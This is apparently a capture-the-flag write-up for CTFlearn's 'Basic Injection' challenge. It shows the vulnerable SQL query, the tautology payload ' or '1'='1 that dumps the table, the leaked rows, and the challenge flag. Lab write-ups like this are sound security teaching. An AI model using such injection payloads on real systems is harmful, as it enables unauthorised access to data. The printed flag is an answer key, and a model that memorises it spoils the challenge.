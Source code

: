 # Basic Injection
## Description
See if you can leak the whole database using what you know about SQL Injections.

Challenge URL: https://web.ctflearn.com/web4/

## Solution
We see that the original query is:
```
Original Query: SELECT * FROM webfour.webfour where name = '$input'
```

So it's easy to exploit:
```
$input = ' or '1'='1
```

This results in
```
Original Query: SELECT * FROM webfour.webfour where name = '$input'

Your Resulting Query: SELECT * FROM webfour.webfour where name = '' or '1'='1'

Name: Luke
Data: I made this problem.
Name: Alec
Data: Steam boys.
Name: Jalen
Data: Pump that iron fool.
Name: Eric
Data: I make cars.
Name: Sam
Data: Thinks he knows SQL.
Name: fl4g__giv3r
Data: CTFlearn{th4t_is_why_you_n33d_to_sanitiz3_inputs}
Name: snoutpop
Data: jowls
Name: Chunbucket
Data: @datboiiii
```

> Flag: `CTFlearn{th4t_is_why_you_n33d_to_sanitiz3_inputs}`
